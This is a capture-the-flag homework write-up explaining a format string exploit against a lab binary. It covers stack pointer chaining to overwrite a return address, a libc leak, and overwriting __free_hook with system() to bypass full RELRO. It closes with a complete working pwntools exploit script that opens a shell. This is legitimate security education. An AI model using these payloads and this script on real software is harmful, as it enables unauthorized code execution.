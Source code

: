 # Homework 10a Writeup (without `giveup()`)
![bruh](/hw10a/image-1.png)

## A Quick Look 
![Alt text](/hw10a/image-2.png)

Sums up every CTF challenge so far ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatgooglytrash.png)

As a rule of thumb we will run `checksec` on the binary:

![Alt text](/hw10a/image-6.png)

Looks scary ![emoji](https://blob.cat/emoji/custom/blobcats/ablobcatsweatsiphard.gif)

The vulnerability could be easily found in the source code if you're using the `clangd` lauguage server in your editor:

![Alt text](/hw10a/image-4.png)

It reads the "name of the snack" into a buffer [in the heap]{.spoiler} then `printf`s it as the format string itself. It appears to be an easy format string attack challenge. We will try some generic payloads:

![Alt text](/hw10a/image-5.png)

Looks like we got some addresses on the stack to bypass ASLR ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatglowsticks.png). Now we have to figure out how to do our abritrary write, so that we can overwrite the GOT entry of a libc function with the address of `system()`.


## Where did my payload go ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatsob.png)

Let's run it on `gdb` and see what the stack looks like when we enter our payload:

![Alt text](/hw10a/image-7.png)

The text we entered is nowhere to be found on the stack. But we can see a pointer to our payload `AAAA...` on the **heap**.  If we look back at the source code, we can see that the `buffer` string is allocated on the heap using `malloc()`.

But in order to execute an abritrary write using format strings (and the `%n` format specifier), the address to be written is specified at an argument, meaning it must also be on the stack. If we tried use `fmtstr_payload()` from pwntools, it will just write to the location pointed by some pointers on the stack.

How about the `name` buffer at the start of the program? Can we put the target addresses into it? It is indeed stored on the stack, but **before** we can leak our address from the buffer to bypass ASLR. If we manage to modify it *after* we leak the address, then we could do the abritrary write. But how?

Is there a good way to return to the `ctf_simulator` function, without calling `giveup()`? Well, to *control the flow*, we could only overwrite either a GOT entry, or the return address of the function at `rbp+1`. Back to square one ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatangery.png)


## Chaining the overwrites

A trick I learned from [the MIPS ROP challenge]() is to make use of the existing values on the stack which are deterministic. In this case it means we can utilize those pointer values to control another value on the stack. For example, the value at `rbp` (`0x7fffffffd650`) refers to the saved `rbp` (`rbp + 0x120`), which points to the base of the previous stack frame. What if we used the format string exploit with the pointer at `rbp`? The value at base of the previous stack frame (which also is a pointer to the stack) get overwritten.

```
[rbp] (8th arg)  -> rbp + 0x120
...
(Stack frame of ctf_simulator())
...
[rbp + 0x120]     -> 0x7fffffffd780
```


Let's try overwriting it with the format specifier `%1c%8$hn` (writing `0x0001` to the address pointed by the 8th argument):

```
[rbp + 0x120] -> 0x7fffffff0001
```

We have another address on the stack, differing from the previous by the lower bytes (first two bytes in memory). What makes it even better is that we can just make it point to `rbp+1`, by just altering those two bytes with `%54872c%10$hn`:

```
[rbp + 0x120] -> 0x7fffffffd658 = rbp + 1
```
(The exact value of `rbp` can be calculated using the leaked stack address from earlier)

Now we have a pointer to the return address (`rbp + 1`) on the stack! Using it as the argument to the format string exploit, we can overwrite the return address with `ctf_simulator` using the same trick:

```
[rbp + 1]     -> ctf_simulator()
...
[rbp + 0x120] -> rbp + 1
```

Now the program will ask us for the team name again once the `get_snack` function exits.

## Full RELRO... or not?

Now that we had our abritary overwrite using the `name` buffer, we can use the leaked address from earlier to calculate the address of the GOT table, 
and leak the address of `puts()` in memory with `%10$s`, thus obtaining the address of `system()`:

![](/hw10a/image-9.png)

However there is a problem: the binary is compiled with full RELRO, meaning the GOT table is read-only. We can't simply overwrite any GOT entry with the address of `system()`. But if we're lucky and the LIBC version on the server is older, there's a chance the LIBC calls a function pointer `__free_hook` (which can be user defined) when freeing chunks on the heap.

We can check the LIBC version using https://libc.blukat.me/ with our leaked address:

![Alt text](/hw10a/image-8.png)

The LIBC version is older than 2.34, so we can use the `__free_hook` trick and overwrite it with the address of `system()` ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatglowsticks.png). We'll use the `name` buffer again, since the output of `fmtstr_payload()` has to be on the stack.

One last thing is to get `system()` to be called with the argument `/bin/sh`. But since whatever is being freed is also passed to `__free_hook`, which in this case happenes to be `buffer`, we can just put `/bin/sh` as the name of our snack.

## Solution
1. Leak the base address of the binary and the saved RBP
2. Using two format string exploits, overwrite the return address of the `get_snacks()` call with `ctf_simulator`
3. Leak the address of `puts()` by setting `name` to `puts@GOT` and calculate the address of `system()`
4. Return to `ctf_simulator` again, set `__free_hook` to the address of `system()`
5. Enter `/bin/sh` as the name of the snack, wait for `buffer` to be freed and `cat flag.txt`

```py
import sys

from pwn import *  # type: ignore

mode = 'l'
if len(sys.argv) > 1:
    mode = sys.argv[1]

e = ELF('./ctf_sim')
libc = ELF('./libc.so.6')
context.binary = e

if mode == 'r':
    p = connect('chal.firebird.sh', 35048)
else:
    p = process([e.path])


p.sendline(b'AAAAAAAAAAAAAAAAA')


def ret_to_ctf():
    # after leaking rbp and setting e.address

    # rbp $8 -> rbp+0x120 $44 -> rbp+0x130
    # make rbp+0x120 point to return address (rbp+8)
    p.sendlineafter(b'option: ', b'3')
    payload = '%{}c%{}$hn'.format((rbp + 8) & 0xffff, 8)
    p.sendlineafter(b'today? ', payload)

    # edit return address to start of ctf_simulator
    p.sendlineafter(b'option: ', b'3')
    payload = '%{}c%{}$hn'.format(e.sym['ctf_simulator'] + 15 & 0xffff, 44)
    p.sendlineafter(b'today? ', payload)


# Leak RBP of ctf_simulator & Return address
p.sendlineafter(b'option: ', b'3')
p.sendlineafter(b'today? ', b'%8$payo%9$pez')
p.recvuntil(b'0x')
rbp = int(p.recvuntil('ayo', drop=True).strip(), 16) - 0x120
ret = int(p.recvuntil('ez', drop=True).strip(), 16)
print('RBP: ', hex(rbp))
print('Return address: ', hex(ret))
# Set the base address of ELF
e.address = ret - e.sym['ctf_simulator'] - 166


ret_to_ctf()
p.pack(e.got['puts'])
p.sendline()

# Leak puts
p.sendlineafter(b'option: ', b'3')
p.sendlineafter(b'today? ', b'%10$sAAAA')
puts = unpack(p.recvuntil('AAAA', drop=True), 'all')
print('PUTS: ', hex(puts))
libc.address = puts - libc.sym['puts']
hook = libc.sym['__free_hook']
print('HOOK: ', hex(hook))


ret_to_ctf()
# Overwrite __free_hook with system
payload = fmtstr_payload(10, {hook: libc.sym['system']})
p.sendline(payload)

p.sendlineafter(b'option: ', b'3')
p.sendlineafter(b'today? ', payload)
p.sendlineafter(b'option: ', b'3')
p.sendlineafter(b'today? ', '/bin/sh\x00')
p.interactive()
```

